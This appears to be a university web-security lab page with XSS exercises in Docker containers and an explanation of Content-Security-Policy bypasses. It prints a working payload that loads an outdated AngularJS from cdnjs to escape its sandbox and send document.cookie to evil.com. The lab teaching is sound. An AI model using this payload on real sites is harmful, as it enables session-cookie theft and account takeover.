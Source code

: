 ### 5.2.4 XSS Using Other HTML Tags Exercise

For this execise, download [docker-compose.xss\_alt\_tag.yml](files/lab6/docker-compose-files/docker-compose.xss\_alt\_tag.yml).

```
wget https://github.com/uwacyber/cits3006/raw/2023S2/cits3006-labs/files/lab6/docker-compose-files/docker-compose.xss_alt_tag.yml
```

{% hint style="info" %}
M1/M2 users: make the same changes as you did in Section 6.2.2.
{% endhint %}

Run the Docker containers using the following command.

<pre><code><strong>sudo docker-compose -f docker-compose.xss_alt_tag.yml up
</strong></code></pre>

Now perform XSS without the `<script>` HTML tag.

### 5.2.3 Bypassing Content Security Policy Protections

The Content-Security-Policy (CSP) is a response header sent by web applications to browsers that define trusted sources for web content and is a recommended mitigation strategy against XSS attacks. The web browser will read the Content-Security-Policy and rejects rendering any components that do not comply with the policy. An example of a CSP configuration that will only allow rendering content hosted on the website is shown below.

```
Content-Security-Policy: default-src 'self';
```

The downside of Content-Security-Policies is that a secure configuration can significantly impact what can be rendered on the website. Therefore, most websites specify exemptions for remote resources that can be loaded. For example, the CSP below has allowed `unsafe-eval` for JavaScript code on `https://cdnjs.cloudflare.com/`.

```
Content-Security-Policy: default-src 'self';script-src 'self' 'unsafe-eval' https://cdnjs.cloudflare.com/;style-src 'self' 'unsafe-inline' https://unpkg.com/nes.css/ https://fonts.googleapis.com/;font-src 'self' https://fonts.gstatic.com/;img-src 'self' data:;child-src 'none';object-src 'none'
```

However, an attacker can bypass the above CSP since it does not specify exact JavaScript files from `https://cdnjs.cloudflare.com/` and vulnerable code to XSS that is hosted on `https://cdnjs.cloudflare.com/` can be loaded. The below payload bypasses the CSP by loading the XSS vulnerable AngularJS version 1.4.6 JavaScript file then executing the payload using a `<div>` tag.

```html
<script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.4.6/angular.js"></script>
<div ng-app> {{'a'.constructor.prototype.charAt=[].join;$eval('x=1} } };window.location = "https://evil.com/?nomnom="+document.cookie;//');}} </div>
```

[HackTricks documents a large variety of methods for bypassing Content-Security-Policy headers using third-party endpoints.](https://book.hacktricks.xyz/pentesting-web/content-security-policy-csp-bypass)
